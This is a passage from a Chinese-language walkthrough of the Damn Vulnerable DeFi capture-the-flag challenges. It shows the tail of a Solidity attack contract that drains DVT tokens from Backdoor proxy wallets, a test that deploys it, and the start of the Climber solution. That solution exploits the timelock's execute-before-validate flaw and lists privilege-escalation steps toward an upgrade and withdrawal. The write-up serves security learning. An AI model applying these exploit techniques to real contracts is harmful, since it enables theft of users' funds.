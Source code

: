 ```solidity

            console.log("proxy ", address(proxyAddr));

            console.log("dvt balance ",tokenDVT.balanceOf(address(proxyAddr)));
            tokenDVT.transferFrom(
                address(proxyAddr), msg.sender, 10 ether);

        }
    }

}
```

根据以上原理，见`test/backdoor/backdoor.challenge.js`，我们成功在一笔交易内完成获取。

```javascript
    it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
        const hacker = await (await ethers.getContractFactory('HackerBackdoor', player)).deploy(
            users,
            walletFactory.address,
            token.address,
            walletRegistry.address,
            masterCopy.address,
            {gasLimit: '30000000'}
        );
    });
```

PS. 我发现调试时尽量通过interface导入后调用，之前是为了合约的简洁（如果思路清晰的话没问题）。

<hr />

# 12. Climber

解决思路：

在`ClimberTimeLock`的`execute`函数中，由于先执行操作，然后再通过`getOperationState(id) != OperationState.ReadyForExecution`校验，形成了典型的“先上车后买票”的进入点。

但由于我们执行时，得一步一步执行，因为执行时`msg.sender`就是`ClimberTimeLock`本身。我们会从`Admin_ROLE`开始，逐步提权。

我们首先列出需要做的事情：

1. updateDelay 改为 0
2. 分配给特定角色`PROPOSER_ROLE`以能够实现提案
3. 实现升级以取消相关限制
4. 完成提款
5. 提交提案



所以我们先写出来攻击的合约吧，需要在同一笔交易内完成（创建合约可以提前）。

升级合约本身没什么特别的，就是在原先基础上去掉了一些限制：
